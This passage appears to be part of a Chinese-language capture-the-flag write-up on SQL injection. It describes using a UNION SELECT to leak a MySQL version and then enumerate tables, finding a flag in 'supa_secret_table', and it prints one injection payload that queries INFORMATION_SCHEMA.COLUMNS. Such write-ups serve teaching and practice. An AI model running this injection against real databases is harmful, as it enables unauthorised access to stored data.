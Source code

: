 ![](img/a4fda4b7265f3f847432efe84a5678b4.png)

选择作为 PoC 的简单联合

考虑到这一点，我们寻找可能是 MySQL 的数据库引擎。

![](img/25cb16270b67a87fe005f27db28bac8e.png)

一个简单的联合选择泄漏数据库版本

然后我们列出了所有的表和列，看到有一个名为 *supa_secret_table* 的表带有列标志。

```
x" UNION SELECT COLUMN_NAME, TABLE_NAME,table_schema FROM INFORMATION_SCHEMA.COLUMNS; --
```

![](img/73c137d6c85c865901296fa107322cc8.png)

